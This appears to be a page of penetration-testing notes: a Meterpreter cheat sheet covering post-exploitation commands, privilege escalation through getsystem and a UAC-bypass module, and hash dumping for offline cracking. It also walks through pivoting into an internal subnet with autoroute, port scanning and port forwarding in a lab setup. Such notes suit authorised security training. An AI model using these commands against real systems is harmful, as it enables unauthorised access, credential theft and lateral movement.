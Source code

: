 **Meterpreter**

Inside metasploit:

* `search meterpreter`
* `set payload <payload-path>`
* `background`
* `sessions -l` (list the sessions)
* `sessions -i <session-id>` (resume a background session)
* `sysinfo`
* `ifconfig`
* `route`
* `getuid`
* `getsystem`
* You can use Unix-like commands like `pwd`, `ls`, `cd`...
* `download <filename> <location>`
* `upload <filename> <location>`
* `shell`
* `hashdump`
* `run autoroute -h`
* `run autoroute -s 192.130.110.0 -n 255.255.255.0` (pivoting towards that network)

Tip: `help` shows an amazing list of available commands divided by category\
Tip: If `getsystem` fails, use `use exploit/windows/local/bypassuac`\
Tip: `ps -U SYSTEM` shows only the processes with SYSTEM privileges\
Tip: Use `post/windows/gather/hashdump` to dump the passwords DB and save it for an offline cracking session

**Pivoting with Meterpreter**

Let's say we have compromised a machine using metasploit and we have a meterpreter shell with session id 1. We discover that there is another machine but it's reachable only from the compromised machine.\
Our IP: `192.180.40.2`\
Compromised host: `192.180.40.3`\
Unreachable machine: `192.130.110.3`

* `meterpreter > run autoroute -s 192.130.110.0 -n 255.255.255.0 1`
* `background`
* `msf > route`

If we want to scan the `192.130.110.0/24` network we can use:

```
msf > use auxiliary/scanner/portscan/tcp
msf > set PORTS 80, 8080, 445, 21, 22, ...
msf > set RHOSTS 192.130.110.1-254
msf > exploit
```

If we discover that at least one port is open and we want to target a specific port on a specific host (e.g. `192.130.110.3:21`) we can use:

* `sessions 1` (back to meterpreter session)
* `portfwd add -l 1234 -p 21 -r 192.130.110.3` (forwarding remote machine port 21 to the local machine port 1234)
* `portfwd list`
* `background`
